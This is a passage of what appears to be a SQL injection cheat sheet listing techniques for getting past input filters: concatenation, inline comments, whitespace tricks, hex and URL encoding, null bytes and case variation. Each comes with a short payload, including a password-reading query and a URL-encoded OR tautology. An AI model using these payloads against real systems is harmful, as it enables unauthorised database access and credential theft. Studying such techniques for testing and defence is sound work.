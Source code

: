    - Example:

     ```sql
     'un'+'ion sel'+'ect'
     ```

4. Obfuscated Code

   - Insert comments or random spacing.

   - Example:

     ```sql
     SELECT/*comment*/password FROM/*comment*/users
     ```

5. Manipulating White Space

   - Use tabs, line breaks, or comment blocks.

   - Example:

     ```sql
     UN//ION//SELECT
     ```

6. Hex Encoding

   - Convert payload to hex.

   - Example (MySQL):

     ```sql
     SELECT x'68656C6C6F'  -- 'hello'
     ```

7. Sophisticated Matches

   - Split known patterns with `||`, etc.

   - Example:

     ```sql
     UN||ION SEL||ECT ...
     ```

8. URL Encoding

   - Encode special chars (`' -> %27`, space -> `%20`).

   - Example:

     ```
     http://target.com?id=%27%20OR%20%271%27%3D%271
     ```

9. Null Byte

   - `%00` can terminate strings or bypass certain checks.

10. Case Variation
